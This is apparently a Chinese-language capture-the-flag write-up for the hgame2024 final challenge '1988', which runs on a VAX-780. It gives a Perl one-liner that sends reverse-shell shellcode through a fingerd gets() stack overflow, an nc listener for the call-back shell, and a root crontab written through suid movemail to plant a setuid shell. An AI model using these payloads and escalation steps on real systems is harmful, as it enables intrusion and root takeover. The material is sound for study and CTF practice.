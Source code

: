 ```yaml
---
title: hgame2024 final - 1988
date: 2024/3/23 17:56:00
updated: 2024/7/25 12:34:56
tags:
    - vax780
excerpt: 利用vax780的栈溢出和suid权限，通过定时任务实现RCE并获取flag。
---
```


{% note %}
Welcome to 1988, please read README.md carefully
{% endnote %}

用上了vax780的远古老题，并给出了详细的wp，以下是我粗略的解释

## 解题思路

首先利用`fingerd`的`gets`打栈溢出，执行任意shellcode，作者写的是反弹shell

> 没有服务器，frp还配不好，紧急借了台服务器

然后`movemail`设有suid位，通过修改定时任务达到rce的目的，创建一个有suid位的`sh`，
接着`cat /flag`即可

## EXPLOIT

**Command on remote server** :
```sh
nc -lvvp 4444
```

**Command on local machine** :
```sh
perl -e 'print "\x01"x303 . "\xdd\x00\xdd\x01\xdd\x02\xdd\x03\xd0\x5e\x5c\xbc\x8f\x61\x00\xd0\x50\x5a\xdd\x00\xdd\x00\xdd\x8f{YOUR REMOTE SERVER IP}\xdd\x8f\x02\x00\x11\x5c\xd0\x5e\x5b\xdd\x10\xdd\x5b\xdd\x5a\xdd\x03\xd0\x5e\x5c\xbc\x8f\x62\x00\xd0\x00\x5b\xdd\x5b\xdd\x5a\xdd\x02\xd0\x5e\x5c\xbc\x8f\x5a\x00\xf3\x02\x5b\xef\xdd\x8f\x2f\x73\x68\x00\xdd\x8f\x2f\x62\x69\x6e\xd0\x5e\x5b\xdd\x00\xdd\x00\xdd\x5b\xdd\x03\xd0\x5e\x5c\xbc\x3b" . "A"x109 . "\x00"x16 . "\x38\xea\xff\x7f"' | ncat -v $TARGET_IP 79
```
注意用自己服务器的ip替换`{YOUR REMOTE SERVER IP}`字段，保持字节的表达形式

**Commands on remote server** :
```sh
(umask 0 && /etc/movemail /dev/null /usr/lib/crontab.local)
ls -l /usr/lib/crontab.local
(echo "* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh"; echo  "* * * * * root rm -f /usr/lib/crontab.local") > /usr/lib/crontab.local
cat /usr/lib/crontab.local
```
稍等一会儿等待定时任务执行
```sh
ls -l /tmp/sh
/tmp/sh
cat /flag
```

成功拿到flag

## 后记

docker起不了，本地的环境久久无法正常工作，于是我决定直接打远程，所幸数据和原文都对的上，
作者给的脚本不需要多少修改就可以直接打通

同时这道题是对pwn一词的诠释，让我第一次见到了二进制利用在现实中的应用

## 参考文献

[解题所需的blog](https://www.rapid7.com/blog/post/2019/01/02/the-ghost-of-exploits-past-a-deep-dive-into-the-morris-worm/)
